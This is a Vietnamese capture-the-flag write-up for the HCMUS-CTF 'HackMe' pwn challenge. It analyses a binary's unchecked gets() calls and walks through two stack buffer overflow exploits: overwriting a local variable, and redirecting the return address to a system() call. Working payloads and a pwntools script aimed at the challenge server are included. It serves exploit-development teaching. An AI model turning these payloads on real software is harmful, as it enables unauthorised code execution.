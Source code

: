 ## ⚡ [HackMe](https://ctf.hcmus.edu.vn/challenges#HackMe)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/100-pts-brightgreen.svg)](https://img.shields.io/badge/100-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `bof`  `stack` `variable`  `ret2text`

<!--
### Challenge Description
-->

### Summary

Đây vẫn là challenge về buffer overflow. 

Tham khảo hướng dẫn giải chi tiết về dạng đề này thông qua [SimpleBOF](../SimpleBOF/README.md) challenge.


Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec hackme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta kiểm tra hàm **main**:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _x86_get_pc_thunk_ax();
  setup();
  check_authentication();
  return 0;
}
```
Chỉ duy nhất lời gọi tới hàm **check_authentication** tại đây.

```cpp
int check_authentication()
{
  char s; // [sp+0h] [bp-28h]@1

  puts("============== HCMUS-CTF WELCOME =============");
  puts("[+] Username: ");
  gets(&s);
  if ( !strcmp(&s, "Only-C") )
    check_password();
  return 0;
}
```
Hàm này kiểm tra người dùng nhập vào username, nếu bằng "Only-C" thì tiếp tục kiểm tra mật khẩu qua hàm **check_password**.

```cpp
int check_password()
{
  char s; // [sp+8h] [bp-20h]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = -1430532899;
  puts("[+] Password: ");
  gets(&s);
  if ( !strcmp(&s, "LoveM-TP") )
    puts("******** Access Granted ********");
  if ( v2 == -17885688 )
  {
    puts("You got the secret");
    system("/bin/cat flag.txt");
    exit(0);
  }
  return 0;
}
```

Ta thấy flag được in ra ở câu lệnh `system("/bin/cat flag.txt")`, tuy nhiên biểu thức điều kiện ở trước nó lại tự không thỏa mãn, và ta cũng không được phép chỉnh sửa biến `v2`. 




Trên thực tế, ta có thể lợi dụng lỗ hổng của hàm `gets` (không giới hạn số kí tự nhập) khi đọc password để ghi đè lên vùng nhớ của biến v2, hoặc tiếp tục ghi đè lên vùng nhớ của địa chỉ trả về của hàm **check_password** để chuyển địa chỉ lệnh trực tiếp vào trong biểu thức điều kiện để lấy được flag.

Ta sẽ chạy cả 2 cách trên tại đây!

### Exploit #1 Local variable

- Xây dựng payload

    Dựa vào đoạn mã ở trên, ta tính offset từ biến `s` (tại đỉnh stack) đến biến `v2` như sau:
    ```python
    offset = [sp+1Ch] - [sp+8h]  = 0x14 = 20
    ```

    Giá trị mới của **v2** sẽ là -17885688 chuyển qua biểu diễn ở hệ hexa:
    ```python
    >>> hex(-17885688 & (2**32-1))
    '0xfeef1608'
    >>> p32(0xfeef1608)
    b'\x08\x16\xef\xfe'
    ```

    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + v2`

    ```python
    payload = "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"
    ```

- Local exploit
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    You got the secret
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

### Exploit #2 Funtion arguments

Chi tiết về phương pháp này sẽ được trình bày ở [ChampionLeague]("../ChampionLeague/README.md") challenge.

- Tìm vị trí địa chỉ trả về của hàm **check_password**
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "BBBB"' | strace ./hackme
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```

    Như vậy, ta cần có **36** bytes offset.




- Lấy địa chỉ gọi câu lệnh system call thông qua `gdb`:

    ```peda
    gdb-peda$ disass check_password
    Dump of assembler code for function check_password:
    ...
    0x080486c2 <+132>:   lea    eax,[ebx-0x17cc]
    0x080486c8 <+138>:   push   eax
    --> 0x080486c9 <+139>:   call   0x8048420 <system@plt>
    0x080486ce <+144>:   add    esp,0x10
    ...
    ```

    Kết quả: **`0x080486c9`**

- Lấy địa chỉ của chuỗi `bin/cat flag.txt`:
    
    ```bash
    $ ROPgadget --binary hackme --string '/bin/cat flag.txt'
    Strings information
    ============================================================
    0x08048834 : /bin/cat flag.txt
    ```
    Ta biết trong binary có chuỗi này vì đã dễ dàng nhìn thấy nó ở **IDA**, và sẽ dùng địa chỉ này như 1 tham số để truyền vào hàm `system`.

    Kết quả: **`0x08048834`**

- Local exploit
    
    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + system_addr + arg1`

    ```python
    payload = "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + "\x34\x88\x04\x08"
    ```

    Kết quả:
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + \
    > "\x34\x88\x04\x08"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *

p = remote("159.65.13.76", 63002)
#p = process("./hackme")

print(p.recvuntil("Username:"))

# This for exploit #1
v2 = 0xfeef1608
payload1 = 'Only-C\n' + 'A'*20 + p32(v2)

# This for exploit #2
syscall_addr = 0x080486c9
bincat_addr = 0x08048834

payload2 = 'Only-C\n' + 'A'*36 + p32(syscall_addr) + p32(bincat_addr)


# default payload1
payload = payload1

p.sendline(payload)
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
